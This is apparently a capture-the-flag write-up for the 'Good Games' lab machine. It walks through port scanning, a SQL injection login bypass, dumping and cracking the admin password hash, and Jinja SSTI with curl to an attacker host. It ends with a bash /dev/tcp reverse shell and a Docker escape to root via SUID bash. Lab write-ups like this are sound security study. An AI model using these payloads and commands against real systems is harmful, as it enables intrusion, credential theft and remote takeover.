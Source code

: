 # Good Games Writeup

Target host: 10.10.11.130
TCP port scan.
```php
└──╼ $rustscan -a 10.10.11.130 -- -sV
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Please contribute more quotes to our GitHub https://github.com/rustscan/rustscan

[~] The config file is expected to be at "/home/nath/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.10.11.130:80
[~] Starting Script(s)
[>] Running script "nmap -vvv -p {{port}} {{ip}} -sV" on ip 10.10.11.130
Depending on the complexity of the script, results may take some time to appear.
[~] Starting Nmap 7.92 ( https://nmap.org ) at 2023-06-02 00:26 AEST
NSE: Loaded 45 scripts for scanning.
Initiating Ping Scan at 00:26
Scanning 10.10.11.130 [2 ports]
Completed Ping Scan at 00:26, 0.25s elapsed (1 total hosts)
Initiating Connect Scan at 00:26
Scanning goodgames.htb (10.10.11.130) [1 port]
Discovered open port 80/tcp on 10.10.11.130
Completed Connect Scan at 00:26, 0.50s elapsed (1 total ports)
Initiating Service scan at 00:26
Scanning 1 service on goodgames.htb (10.10.11.130)
Completed Service scan at 00:26, 8.01s elapsed (1 service on 1 host)
NSE: Script scanning 10.10.11.130.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 00:26
Completed NSE at 00:26, 2.39s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 00:26
Completed NSE at 00:26, 1.42s elapsed
Nmap scan report for goodgames.htb (10.10.11.130)
Host is up, received syn-ack (0.28s latency).
Scanned at 2023-06-02 00:26:20 AEST for 13s

PORT   STATE SERVICE REASON  VERSION
80/tcp open  http    syn-ack Apache httpd 2.4.51

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.05 seconds
```

Navigating to the webpage open on port 80 presents the following page.
![1](assets/1.png)

As most of the links on the home page were not working, I attempted to browse through each of the blog posts and found that only one of them was working. This post in particular looks like it was created by the admin.
![2](assets/2.png)

Going back to the index page, I found a link to the login page which can be seen by clicking in the top right corner of the screen.
![3](assets/3.png)

From here, the following account was created.
![4](assets/4.png)

Upon logging in with the user I just created, I see the message `Welcome Nate`
![5](assets/5.png)

After we log in, all the user can see is a simple dashboard and a little form field to change their password. Other than that, there is no reason to log in as a normal user other than the fact that you can comment on blog posts.

Before moving on, I checked if any of the `change password` form fields were vulnerable to SQL injection with the following payloads.
```go
password'+or+1=1--
password'+or+1=1#
password' or 1=1;--
```

However, there was no response to indicate that any form fields were vulnerable.

From here, I go back to the login page and attempt to check if the authentication can be bypassed via SQL injection. When the request is intercepted with burp proxy and modified with the following payload `'+or+1=1#`, I see the following page.
![6](assets/6.png)

By using some of the SQL injection techniques learned in the Burpsuite web security academy, I found that the query that is executed at login has 4 arguments. This was achieved with the following payload `'+order+by+4#`
![7](assets/7.png)

When the payload is modified to use a `union select` statement, we can see below that the 4 arguments are used to display the name of the user on the screen.
![8](assets/8.png)

Inserting the `database()` function in place of argument 4 shows that the name of the database is `main`. Here the query was modified to show all the information schemas in the database `'+union+select+1,2,3,concat(table_schema,'%20')+from+information_schema.tables`.

This is necessary to filter out all the irrelevant database tables and to only show us the tables that belong to `main`.
![9](assets/9.png)

Modifying the payload as follows `'+union+select+1,2,3,concat(table_name,'%20')+from+information_schema.tables+where+table_schema+=+'main'#` to dump all tables from the database schema `main` shows that there are 3 tables in the database named `main`. They are `blog`, `blog_comments`, and, `user`.
![10](assets/10.png)

By modifying the payload again, the column names for the user table can be retrieved `'+union+select+1,2,3,concat(column_name,'%20')+from+information_schema.columns+where+table_name+=+'user'#`. Executing the query shows that the password for each user is stored in the same table.
![11](assets/11.png)

Modifying the payload one last time can be used to retrieve the password hash for the admin user `'+union+select+1,2,3,concat(name,'%20',password,'%20')+from+user#`.
![12](assets/12.png)

Storing the hash of the admin password in a text and handing it to `hashid`, tells us that hash is likely `MD5`. Providing the following command to hashcat `hashcat -a 0 -m 0 hash.txt /usr/share/wordlists/rockyou.txt` shows the following results.
![13](assets/13.png)

The password is `superadministrator`.

After logging in as the administrator user, you will notice that there is an extra icon in the shape of a gear in the top right corner of the screen that will lead us to an administration page at `internal-administration.goodgames.htb`.
![14](assets/14.png)

If not done already, in order to access the `goodgames​` subdomain, you will need to make the following changes in `/etc/hosts` below:
```bash
10.10.11.130 goodgames.htb internal-administration.goodgames.htb
```

Once the changes have been saved to `/etc/hosts`, upon navigating to `http://internal-administration.goodgames.htb` the following page will be displayed.
![15](assets/15.png)

Here I log into the admin panel with `username=admin&password=superadministrator`

After exploring the admin for a few minutes and messing around with some of the form fields, I find that there is a Server Side Template Injection (SSTI) vulnerability in the user profile feature. Entering the payload `{{7*7}}` into the `Full Name` field displays the following result.
![16](assets/16.png)

Before attempting to see if I can get a reverse shell, first I need to test if the server can contact me. To do this I will use the following payload `{{ config.__class__.from_envvar.__globals__.__builtins__.__import__("os").popen("curl http://10.10.16.2:9001/hey").read() }}` and start a http server with `python3 -m http.server 9001`. Executing the code from the vulnerable application shows the following result from the HTTP server.
![17](assets/17.png)

Now that I know that the server can contact my machine, I will write the following payload to a file `/bin/bash -i >& /dev/tcp/10.10.16.2/9002 0>&1`, serve it, and attempt to get the victim to download and execute it.

After executing `wget http://myIpAddress:9001/rev.sh` and `ls` on the victim's machine, I was able to verify that the victim was able to download the reverse shell.
![18](assets/18.png)

Before catching the reverse shell I start netcat with `nc -nlvp 9002`.
After granting the reverse shell execute permissions to run with `chmod +x rev.sh` and executing the script, I see the following below.
![19](assets/19.png)

Next, I will upgrade the shell by pressing `ctrl+Z` and entering `stty raw -echo; fg`. For anyone reading this that has no idea what this means, when you press ctrl+Z, you move the current task to continue running in the background. The `fg` allows us to move the background task into the foreground so we can take control of it again.
![20](assets/20.png)

As I saw the Dockerfile and the `.dockerenv` directory when I connected to the machine, it is quite clear that the web application is running inside of a Docker container. In order to escalate privileges from here, I need to find the target that is hosting the container.
![21](assets/21.png)

Attempt to see if there are any more hosts running on the subnet. First I check what the machine's IP address is and then I decrement or increment the host value by 1 and contact it with the `ping` utility.

The output below shows the IP address of the container and the target machine that is hosting the container.
![22](assets/22.png)

As the user located in the home directory of the container is Augustus, I attempt to connect to `172.19.0.2` via ssh as Augustus using the `superadministrator` password.
![23](assets/23.png)

After successfully logging in as Augustus, I noticed that the home directory on the machine hosting the container is the same as the home directory hosted in the container. I verify this is true by creating a copy of bash and placing it in `/home/augustus`.
![24](assets/24.png)

Then I modify the permissions of the copy of bash within the container as root and allow everyone to read, write and execute. I also set the owner as root. Once complete, I log back into to Augustus and escalate to root on the host machine.
![25](assets/25.png)